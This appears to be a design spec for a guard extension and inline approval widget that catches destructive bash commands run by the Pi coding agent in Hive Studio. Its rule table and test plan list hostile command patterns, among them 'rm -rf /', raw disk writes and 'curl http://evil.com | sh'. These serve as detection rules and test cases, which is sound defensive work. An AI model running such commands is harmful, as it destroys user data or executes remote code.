

<!-- SUMMARY -->
# Destructive Bash Command Guard & Inline Approval Widget (Executive Summary)

> [!NOTE]
> **Executive Summary**: Implement a safety extension for Pi that intercepts dangerous bash tool calls (`rm -rf`, `sudo`, destructive git, disk operations) combined with a bespoke inline approval card (`CommandApprovalBar`) rendered directly above the message composer in Hive Studio, replacing the intrusive full-screen modal with an ergonomic workflow.

## High-Level Strategy & Architecture
- **Pi Extension (`bash-guard.ts`)**: Hooks `pi.on("tool_call")` for tool `bash`. Evaluates the command against a categorized destructive taxonomy and invokes `ctx.ui.confirm` with structured metadata if a dangerous pattern is detected.
- **Hive Inline Approval Widget (`CommandApprovalBar.tsx`)**: Renders above the message input in `Composer.tsx` with risk badges, syntax-highlighted command preview, copy button, and keyboard-accessible **Block** (`Esc`) and **Allow Once** (`Enter`) actions.
- **Protocol Integration**: Leverages Pi's existing JSONL RPC UI subprotocol (`extension_ui_request` / `extension_ui_response`), avoiding custom RPC hacks and keeping terminal CLI compatibility.

## Key Decisions

> [!CHOICE] Integration Method: Native `extension_ui_request` vs Custom Bridge Topic
> **Question**: How should the extension notify Hive of a pending confirmation?
> - (x) **Native `ctx.ui.confirm` / RPC UI Request**: Standard Pi extension protocol. Works in both Hive (as inline widget) and Pi CLI terminal (as CLI confirm prompt) without custom protocol changes. [Recommended]
> - ( ) **Custom Bridge Topic (`toGui`)**: Dedicated WebSocket/bridge event. Only works inside Hive and bypasses Pi CLI's standard UI contract.

> [!CHOICE] Extension Distribution
> **Question**: Where should the safety extension be installed and maintained?
> - (x) **Bundled Companion Extension**: Shipped in Hive desktop resources and automatically loaded on session spawn via `-e` (or user toggleable in Settings). [Recommended]
> - ( ) **User-Level Only (`~/.pi/agent/extensions`)**: Must be manually copied to the user's home directory.

## Execution Milestones
- [ ] 1. Core Safety Rule Engine & Pi Extension (`bash-guard.ts`)
- [ ] 2. Renderer State & Dialog Routing (`session-store.ts`)
- [ ] 3. Inline Approval UI Component (`CommandApprovalBar.tsx` + styles)
- [ ] 4. Composer Mount & Modal Suppression (`Composer.tsx` & `ExtensionDialogModal.tsx`)
- [ ] 5. End-to-End Verification with safe vs destructive bash commands
<!-- /SUMMARY -->

<!-- FULL -->
# Destructive Bash Command Guard & Inline Approval Widget (Full Specification)

## 1. Objective & Background
When Pi runs commands via the `bash` tool, destructive operations (e.g. `rm -rf`, `git reset --hard`, `mkfs`, `sudo`) currently execute without friction unless an extension halts them. In standard Pi CLI, `permission-gate.ts` prompts via curses/readline. In Hive, unhandled dialogs either pop up a full-screen blocking modal overlay (`ExtensionDialogModal`) or are unstyled.

The goal is to provide a clean, non-intrusive safety guard that docks directly **above the message composer area** in Hive, giving developers clear insight into what the agent is attempting to run and letting them approve or reject it in-stride.

## 2. Component Architecture & Data Flow

## 3. Destructive Command Taxonomy

The rule engine inspects commands and subshell pipelines (`&&`, `||`, `;`, `|`, `$(...)`, `` `...` ``) against:

| Rule ID | Category | Pattern Examples | Severity | User-Facing Description |
|---|---|---|---|---|
| `fs-purge` | Filesystem Purge | `rm\s+(-[a-zA-Z]*r[a-zA-Z]*f?\|--recursive)` | `critical` | Recursive file or folder deletion |
| `git-wipe` | Destructive Git | `git\s+(reset\s+--hard\|clean\s+-[a-zA-Z]*f\|push\s+.*--force)` | `high` | Overwrites uncommitted changes or git history |
| `priv-esc` | Privilege Escalation | `\b(sudo\|su\s+-)\b`, `chmod\s+(-R\s+)?777` | `critical` | Root privilege escalation or unrestricted file permissions |
| `disk-raw` | Disk / Partition | `\bmkfs\b`, `\bdd\s+if=`, `>\s*/dev/sd[a-z]` | `critical` | Raw drive write or filesystem format |
| `remote-pipe` | Remote Shell Pipe | `curl\s+.*\|\s*(ba)?sh`, `wget\s+.*\|\s*(ba)?sh` | `high` | Remote script piped directly to shell |
| `db-drop` | Database Loss | `drop\s+(database\|table)`, `truncate\s+table` | `critical` | Database table or schema deletion |

## 4. UI/UX Specification: `CommandApprovalBar`

### Layout & Placement
- Rendered inside `Composer.tsx`, positioned right above `
`, stacked with other composer alerts (`ModelSwitchCacheBar`, `QueuedMessagesBar`).
- Does **not** push messages out of view or pop up a full-screen dark modal.

### Visual Structure
- **Border / Background**: Warning border `color-mix(in srgb, var(--warning, #f59e0b) 45%, transparent)` with elevated card background (`var(--bg-elevated)`).
- **Header**:
  - `ShieldAlert` icon in amber/accent.
  - Title: "Dangerous Bash Command Detected".
  - Severity Chip: `[CRITICAL]` (red) or `[HIGH]` (amber).
  - Shortcut badge: `Esc to block`.
- **Command Box**:
  - Monospace font (`var(--font-mono)`, 11.5px) in dark code card with line wrapping.
  - Copy command button (`Copy` icon).
- **Actions**:
  - **Block Execution** button (`button-secondary` with red text hover, mapped to `Escape`).
  - **Allow Once** button (`button-primary` in warning/accent style, mapped to `Enter`).

## 5. Step-by-Step Implementation Breakdown

### 1. Pi Extension: `apps/desktop/resources/bridge/bash-guard.ts`
- Implement `pi.on("tool_call")` filter.
- Parse chained commands and match against rule taxonomy.
- Return early if safe.
- Emit structured metadata in `ctx.ui.confirm` with JSON payload `{ kind: "dangerous_bash_approval", command, reason, severity, rule }`.

### 2. Dialog Routing & Store: `apps/desktop/src/renderer/store/session-store.ts`
- In `onUiRequest`:
  - Check if `request.method === "confirm"` and `request.message` contains `dangerous_bash_approval`.
  - Store as `pendingCommandApproval: { id: request.id, ...parsedData }`.
  - Expose `resolveCommandApproval(id: string, confirmed: boolean)` which calls `respondDialog`.

### 3. Component: `apps/desktop/src/renderer/components/CommandApprovalBar.tsx`
- Build the React component using `lucide-react` icons (`ShieldAlert`, `Copy`, `Check`, `Ban`, `Play`).
- Implement keyboard listener (`Enter` to approve, `Escape` to deny).
- Add CSS styling matching Hive's design tokens in `apps/desktop/src/renderer/styles/command-approval-bar.css`.

### 4. Composer Integration: `apps/desktop/src/renderer/components/Composer.tsx`
- Mount `<CommandApprovalBar />` above the editor droppable container.
- Update `ExtensionDialogModal.tsx` to ignore requests handled by `CommandApprovalBar`.

## 6. File Changes Breakdown

| File | Action | Description |
|---|---|---|
| `apps/desktop/resources/bridge/bash-guard.ts` | `[NEW]` | Destructive command inspection extension for Pi |
| `apps/desktop/src/renderer/components/CommandApprovalBar.tsx` | `[NEW]` | Inline approval widget component above composer |
| `apps/desktop/src/renderer/styles/command-approval-bar.css` | `[NEW]` | CSS styling for the approval widget |
| `apps/desktop/src/renderer/components/Composer.tsx` | `[MODIFY]` | Mount `CommandApprovalBar` above editor box |
| `apps/desktop/src/renderer/components/ExtensionDialogModal.tsx` | `[MODIFY]` | Suppress full-screen modal when command approval is active |
| `apps/desktop/src/renderer/store/session-store.ts` | `[MODIFY]` | Add `pendingCommandApproval` state & route UI requests |
| `apps/desktop/src/main/services/session-manager.ts` | `[MODIFY]` | Load `bash-guard.ts` into spawned Pi sessions |

## 7. Verification & Automated Test Plan
- Unit test rule parser with positive and negative regex cases:
  - Positive: `rm -rf /`, `echo ok && git reset --hard HEAD~1`, `sudo apt update`, `curl http://evil.com | sh`.
  - Negative: `npm test`, `git status`, `ls -la`, `rm file.txt` (non-recursive).
- Integration test in Hive workbench:
  - Run prompt that attempts `rm -rf dist`.
  - Verify `<CommandApprovalBar />` appears above composer.
  - Verify clicking "Block" causes agent to receive cancellation and gracefully stop.
  - Run prompt again, click "Allow", verify command executes.
<!-- /FULL -->
